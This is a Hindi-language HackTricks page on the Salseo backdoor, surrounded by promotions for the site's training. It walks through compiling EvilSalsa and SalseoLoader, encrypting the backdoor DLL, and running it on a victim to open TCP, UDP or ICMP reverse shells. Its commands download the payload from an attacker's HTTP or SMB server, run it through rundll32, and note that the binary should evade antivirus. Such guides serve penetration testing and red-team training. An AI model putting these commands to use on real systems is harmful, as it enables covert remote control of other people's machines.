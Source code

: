 # सलसेओ

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम एक्सपर्ट (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम एक्सपर्ट (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में।

</details>
{% endhint %}

## बाइनरी को कंपाइल करना

गिटहब से स्रोत कोड डाउनलोड करें और **EvilSalsa** और **SalseoLoader** को कंपाइल करें। कोड को कंपाइल करने के लिए **Visual Studio** इंस्टॉल करना होगा।

इन परियोजनाओं को उस विंडोज बॉक्स के आर्किटेक्चर के लिए कंपाइल करें जहां आप उन्हें उपयोग करने जा रहे हैं (यदि विंडोज x64 का समर्थन करता है तो उन्हें उस आर्किटेक्चर के लिए कंपाइल करें)।

आप **Visual Studio** में **बाएं "बिल्ड" टैब** में **"प्लेटफ़ॉर्म टारगेट"** में आर्किटेक्चर का चयन कर सकते हैं।

(\*\*यदि आप इस विकल्प को नहीं ढूंढ सकते तो **"प्रोजेक्ट टैब"** में क्लिक करें और फिर **"\<प्रोजेक्ट नाम> गुणधर्म"** में क्लिक करें)

![](<../.gitbook/assets/image (132).png>)

फिर, दोनों परियोजनाओं को बिल्ड करें (बिल्ड -> समाधान बिल्ड) (लॉग्स के अंदर एक्जीक्यूटेबल का पथ दिखाई देगा):

![](<../.gitbook/assets/image (1) (2) (1) (1) (1).png>)

## बैकडोर की तैयारी

सबसे पहले, आपको **EvilSalsa.dll** को एन्कोड करने की आवश्यकता होगी। इसे करने के लिए, आप **encrypterassembly.py** पायथन स्क्रिप्ट का उपयोग कर सकते हैं या आप परियोजना **EncrypterAssembly** को कंपाइल कर सकते हैं:

### **पायथन**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### Windows

### विंडोज
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
ठीक है, अब आपके पास सारे जरूरी चीजें हैं जिनकी मदद से आप सारे सालसेओ चीज को क्रियान्वित कर सकते हैं: **एन्कोडेड EvilDalsa.dll** और **SalseoLoader का बाइनरी।**

**मशीन पर SalseoLoader.exe बाइनरी अपलोड करें। इन्हें किसी भी AV द्वारा पहचाना नहीं जाना चाहिए...**

## **बैकडोर को क्रियान्वित करें**

### **TCP रिवर्स शैल (HTTP के माध्यम से एन्कोडेड dll डाउनलोड करना)**

याद रखें कि रिवर्स शैल सुनने वाले के रूप में एनसी शुरू करने और एक HTTP सर्वर चालू करने के लिए एक HTTP सर्वर चालू करें।
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **UDP रिवर्स शैल प्राप्त करना (SMB के माध्यम से एन्कोडेड dll डाउनलोड करना)**

याद रखें कि रिवर्स शैल सुनने वाले के रूप में एनसी शुरू करें, और एन्कोडेड evilsalsa को सेवित करने के लिए एक SMB सर्वर चालित करें (impacket-smbserver)।
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **एक ICMP रिवर्स शैल (एन्कोडेड डीएल पहले से ही पीड़ित के अंदर)**

**इस बार आपको रिवर्स शैल प्राप्त करने के लिए क्लाइंट में एक विशेष उपकरण की आवश्यकता है। डाउनलोड करें:** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **ICMP जवाब अक्षम करें:**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### क्लाइंट को निष्पादित करें:
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### पीड़ित के अंदर, हम salseo चीज को चलाते हैं:
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## Compiling SalseoLoader as DLL exporting main function

विज़ुअल स्टूडियो का उपयोग करके SalseoLoader परियोजना खोलें।

### मुख्य फ़ंक्शन के पहले जोड़ें: \[DllExport]

![](<../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

### इस परियोजना के लिए DllExport इंस्टॉल करें

#### **उपकरण** --> **NuGet पैकेज प्रबंधक** --> **समाधान के लिए NuGet पैकेज स्थापित करें...**

![](<../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

#### **DllExport पैकेज (ब्राउज़ टैब का उपयोग करके) खोजें और स्थापित करें (और पॉपअप स्वीकार करें)**

![](<../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

आपके परियोजना फ़ोल्डर में फ़ाइलें दिखाई देने लगी हैं: **DllExport.bat** और **DllExport\_Configure.bat**

### **U**ninstall DllExport

**अनइंस्टॉल** दबाएं (हाँ, यह अजीब है लेकिन मुझ पर भरोसा करें, यह आवश्यक है)

![](<../.gitbook/assets/image (5) (1) (1) (2) (1).png>)

### **विज़ुअल स्टूडियो बंद करें और DllExport\_configure चलाएं**

बस **बंद** करें विज़ुअल स्टूडियो

फिर, अपने **SalseoLoader फ़ोल्डर** पर जाएं और **DllExport\_Configure.bat** चलाएं

**x64** का चयन करें (अगर आप इसे x64 बॉक्स के अंदर उपयोग करने जा रहे हैं, तो यह मेरा मामला था), **System.Runtime.InteropServices** का चयन करें (**DllExport के लिए नेमस्पेस** के अंदर) और **Apply** दबाएं

![](<../.gitbook/assets/image (7) (1) (1) (1) (1).png>)

### **परियोजना को फिर से विज़ुअल स्टूडियो के साथ खोलें**

**\[DllExport]** को अब और त्रुटि के रूप में नहीं चिह्नित किया जाना चाहिए

![](<../.gitbook/assets/image (8) (1).png>)

### समाधान तैयार करें

**आउटपुट प्रकार = क्लास लाइब्रेरी** का चयन करें (परियोजना --> SalseoLoader गुण --> एप्लिकेशन --> आउटपुट प्रकार = क्लास लाइब्रेरी)

![](<../.gitbook/assets/image (10) (1).png>)

**x64 प्लेटफ़ॉर्म** का चयन करें (परियोजना --> SalseoLoader गुण --> निर्माण --> प्लेटफ़ॉर्म लक्ष्य = x64)

![](<../.gitbook/assets/image (9) (1) (1).png>)

समाधान **तैयार** करने के लिए: बिल्ड --> समाधान बिल्ड करें (नए DLL का पथ आउटपुट कंसोल के अंदर दिखाई देगा)

### उत्पन्न Dll का परीक्षण करें

जहां आप इसे परीक्षण करना चाहते हैं, वहाँ Dll कॉपी और पेस्ट करें।

चलाएं:
```
rundll32.exe SalseoLoader.dll,main
```
यदि कोई त्रुटि प्रकट नहीं होती है, तो संभावतः आपके पास एक कार्यात्मक DLL है !!

## DLL का उपयोग करके शैल प्राप्त करें

**DLL** का उपयोग करने के लिए एक **HTTP** **सर्वर** और एक **nc** **सुनने वाला** सेट करना न भूलें

### Powershell
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### CMD

### सीएमडी
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
{% hint style="success" %}
सीखें और प्रैक्टिस करें AWS हैकिंग: <img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम एक्सपर्ट (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
सीखें और प्रैक्टिस करें GCP हैकिंग: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम एक्सपर्ट (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड ग्रुप**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम ग्रुप**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, हैकट्रिक्स**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में PR जमा करके।

</details>
{% endhint %}
